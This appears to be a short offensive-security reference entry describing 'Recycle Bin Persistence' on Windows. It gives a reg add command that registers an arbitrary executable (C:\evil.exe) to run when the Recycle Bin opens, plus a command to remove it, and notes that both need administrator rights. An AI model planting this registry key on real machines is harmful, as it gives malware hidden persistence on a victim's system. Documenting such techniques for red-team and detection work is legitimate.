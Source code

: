 # Recycle Bin Persistence

By registering arbitrary command to the Recycle Bin (CLSID: `645FF040-5081-101B-9F08-00AA002F954E`), the command will be executed when the Recycle Bin opens. 

```powershell
reg add "HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command" /ve /d "C:\evil.exe" /f
```

To delete this setting, unregister it with the following command:

```powershell
reg delete "HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open" /f
```

Both commands require `Administrator` privileges.